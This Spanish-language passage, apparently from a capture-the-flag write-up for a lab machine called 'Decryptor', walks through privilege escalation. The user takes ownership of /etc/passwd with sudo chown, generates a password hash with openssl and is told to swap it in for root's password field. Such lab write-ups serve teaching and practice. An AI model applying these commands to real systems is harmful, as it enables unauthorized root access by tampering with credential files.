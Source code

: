 Tenemos varías opciones que podemos aplicar aquí.

<br>

<h3 id="Privesc">Cambiando Contraseña del Root Desde el /etc/passwd</h3>

La primera opción que podemos hacer, es cambiar la contraseña del **Root**, modificando el archivo `/etc/passwd`.

Primero, cambiemos el dueño de este archivo, para que nuestro usuario pueda modificarlo:
```bash
chiquero@Decryptor:~$ ls -la /etc/passwd
-rw-r--r-- 1 root root 1290 May 21  2024 /etc/passwd
chiquero@Decryptor:~$ LFILE=/etc/passwd
chiquero@Decryptor:~$ sudo chown $(id -un):$(id -gn) $LFILE
chiquero@Decryptor:~$ ls -la /etc/passwd
-rw-r--r-- 1 chiquero chiquero 1290 May 21  2024 /etc/passwd
```

Ahora, vamos a crear el hash de una contraseña random con **openssl**:
```bash
chiquero@Decryptor:~$ which openssl
/usr/bin/openssl
chiquero@Decryptor:~$ openssl passwd hack123
$1$XcEUPl6S$xZJcD3/GIQGf26XA9hK7O.
```

Abre el archivo `/etc/passwd` con **nano** y cambia la x (que es la contraseña del **Root**), por la contraseña hasheada que acabamos de crear con **openssl**:

<p align="center">
<img src="/assets/images/THL-writeup-decryptor/Captura6.png">
</p>

<p align="center">
<img src="/assets/images/THL-writeup-decryptor/Captura7.png">
</p>
